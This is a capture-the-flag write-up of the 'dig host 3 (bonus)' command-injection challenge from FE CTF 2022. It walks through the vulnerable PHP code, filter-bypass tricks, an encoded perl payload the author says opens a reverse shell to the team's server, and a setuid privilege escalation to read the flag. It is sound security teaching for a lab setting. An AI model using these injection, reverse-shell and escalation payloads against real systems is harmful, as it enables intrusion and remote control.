









## dig host 3 (bonus)
### intro
For the FE CTF 2022 (**F**orsvarets **E**fterretningstjeneste aka Danish Defence Intelligence Service) there was a series of command injection challenges called "dig host". 1 through 3 were pretty trivial, but "dig host 3 (bonus)" was a bit trickier. To get a sense of what the challenge looks like you can try looking at this [dig host 3](https://youtu.be/Xuf5iqOc-eY) video writeup, since the flag for "dig host 3 (bonus)" was on the same system. I played with the [DTUHAX](https://hackerlab.dtu.dk) team which is the DTU (Technical University of Denmark) ctf/hacking team.

### solution
The easy solution to this one is to simply run ``'`{cat,bonus_flag}`'``. However we did not find the easy solution. Here's how you take the long way around...

The challenge offers you a webpage where you can run the program DiG and query some dns record.



The previous 3 challenges have been about command injection, so we tried various command injection. By sending `;ls` we can see which files exist in the directory, we can read files by running `;cat<flag`. This works because the website is concatenating the user input to `"dig "` and running the resulting string in bash.



The first line `/dig [host]` shows an error from DiG¹ and then the output from ls.

If you run `;cat<flag` it prints the flag. This is how we solved dig host 3, but running `;cat<bonus_flag` prints nothing. My instinct here is to check what the file permissions are, or if it even is a file (it could be a directory, or a broken symlink), but running `ls -al` requires a dash (filtered) and a space (filtered). We can however run `;cat<dig_host_level3.php`. 

```php
<?php
        require_once("../include/smarty.php");


        $host = "";
    $output = "";

        if(isset($_POST) && is_array($_POST) && array_key_exists("host", $_POST)) {
        $host = preg_replace("/[\s\$-]+/", "", $_POST["host"]);

        exec("/dig ".$host, $output);
    }

        $smarty->assign(array(
                "PHP_SELF"      => $_SERVER["PHP_SELF"],
                "host"          => $host,
        "output"    => implode("\n", $output)
        ));

        $smarty->display("dig_host_level3.tpl");
?>
```

This code does pretty much what we'd expect from our interactions with it. It takes the user input, removes a list of disallowed characters, concats it to `/dig ` and runs it. Not being able to use whitespace, `$` or `-` is pretty limiting. The lack of whitespace makes it impossible to run commands with arguments², but we did get 1 space for free. Namely the space between `/dig` and whatever we typed in, so I thought about ways to abuse that one space.



I noticed that DiG echos the input you give it at the end of the first line. If we give a reversed payload it will echo it to us, we can then reverse the reverse on our payload by using `rev`. Using this method we can inject almost arbitrary strings (specifically strings that match the regex `[^\s$-]+`) into the beginning of our line. We ran `ls -al /usr/bin` on the machine from dig host 1 (where it allowed spaces and dashes) to see which programs it had that might grant us RCE from this. We tried `python3`, `node` and `perl`.

Something like this would let us go from writing almost arbitrary strings with garbage postfixed, to writing fully arbitrary strings to stoudout.
```python
print(bytes([101,118,105,108,32,115,116,117,102,102]).decode()) >><< utnubU-1.61.9 GiD >><< ;
dmc+ :snoitpo labolg ;;
:rewsna toG ;;
... more garbage here ...
```
By piping this into python (and ignoring the garbage) it would let us generate strings that contain any character. Unfortunately none of them would accept incomplete multiline comments like `"""` in python or `/*` in javascript, not closing your comments is an error. Single line comments wouldn't help since it parsed the entire file at once. After many hours of trying things that didn't work we tried the following payload.

```
ffuts_live_od|rev>/tmp/bleh;echo`cat</tmp/bleh`
```
This payload echos `ffuts_live_od` using `dig`, then reverse it so that `do_evil_stuff` is first on the first line, then writes it to `/tmp/bleh` and then echos the output of `cat</tmp/bleh`, which collapses it into one line. Every sequence of whitespace is collapsed into one space, as the string is parsed into arguments by bash and then joined with spaces by echo.

```bash
$ echo `printf "a\n\nbc\t\td    e f"`
a bc d e f
```

This lets of have a single line with controlled prefix.



RCE baby!!!

I wrote a small python script to help generate payloads and after 3 hours of sleep I made this monster. (I'm skipping over the string escaping because it is nuts and boring³)
```bash
\\\#\\\)\\\"13x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"03x\\\\\\\".\\\"02x\\\\\\\".\\\"73x\\\\\\\".\\\"33x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"83x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"e2x\\\\\\\".\\\"33x\\\\\\\".\\\"73x\\\\\\\".\\\"e2x\\\\\\\".\\\"23x\\\\\\\".\\\"23x\\\\\\\".\\\"e2x\\\\\\\".\\\"53x\\\\\\\".\\\"63x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"07x\\\\\\\".\\\"36x\\\\\\\".\\\"47x\\\\\\\".\\\"f2x\\\\\\\".\\\"67x\\\\\\\".\\\"56x\\\\\\\".\\\"46x\\\\\\\".\\\"f2x\\\\\\\".\\\"02x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"02x\\\\\\\".\\\"96x\\\\\\\".\\\"d2x\\\\\\\".\\\"02x\\\\\\\".\\\"86x\\\\\\\".\\\"37x\\\\\\\"\\\(tnirp|rev>/tmp/bleh;echo`cat</tmp/bleh`>/tmp/gamer;perl</tmp/gamer|bash
```

It makes a reverse shell to DTUHAX's server. The challenge is not done.



We still can't read bonus_flag. Turns out you have to be user 20000, (aka root? I think) and we are not user 20000. Luckily `/dig` is a setuid binary with the right user, and DiG has an option to read domains to query from a file⁴, and it echos those domains!



huh?



works fine locally?

We spent a long time trying to figure this out, eventually we used the rev shell to copy their version of DiG and reversed it. It is not at all the normal DiG binary.


Turns out they have 2 dig binaries and a symlink
```
$ find / -name dig 2>/dev/null
/usr/bin/dig
/web-apps/php/html/dig
/dig
```
The binary checks that `argc == 2` and filters some illegal characters from the first argument, then it just runs it in bash.



They don't ban `-` in the fake `dig` binary so running `/dig -fbonus_flag` works fine. This works because the fake dig binary sees `-fbonus_flag` as one argument, and then forwards it to bash running as a higher privilege user (because of setuid).

```
$ /dig -fbonus_flag
; <<>> DiG 9.16.1-Ubuntu <<>> flag{wait, i thought this was web!}
;; global options: +cmd
(more garbage is printed after)
```

### epilogue

Why does ``'`{cat,bonus_flag}`'`` work? The payload is quoted in single quotes, which should make it be treated as a string. Additionally, the PHP user doesn't have permission to access the bonus_flag file. This only works because the single quotes makes the first instance of bash (as run by PHP) pass the inner data as is to the fake dig binary.
PHP runs ``/dig '`{cat,bonus_flag}`'`` which makes the fake dig binary run execve which runs `/bin/bash` with the arguments og `bash`, `-pc` and `` dig `{cat,bonus_flag}` ``.

What exactly happens after this is left as an exercise for the read :)

### alternative writeup
pyjam.as's [writeup](https://pyjam.as/writeups/fectf2022) shows a really creative solution that involves modifying your DNS records! It's in danish though, and the website is abhorent.

### footnotes

¹ One thing you might notice about running `dig` without arguments on your own machine is that it doesn't print `/dig [host]`, it doesn't even error. This is a hint that we're not running the DiG binary that we expect. At the time I did not notice this.

² This is what we believed at least. There are payloads like ``'`{cat,bonus_flag}`'`` which break out of this. However the reason this payload works is pretty finicky.

³ I'm not 100% of the details for this. As is written later in the writeup, the payload is actually parsed and serialized by bash twice, at least. These tranformations are deterministic and can easily be reversed, but only if you know what parsers are between you and your target. At this part of the attack I fully believed it was only parsed once, as the PHP code calls exec on dig. The fact that it runs `"/dig"` instead `"dig"` should have tipped me off that it might not be running a normal dig binary. You can look at the (awful, ctf) code [here](dig-host-3-bonus/payload.py)

⁴ A useful resource for figuring out security relevant capabilities for random linux binaries is [gtfobins](https://gtfobins.github.io/gtfobins/dig/).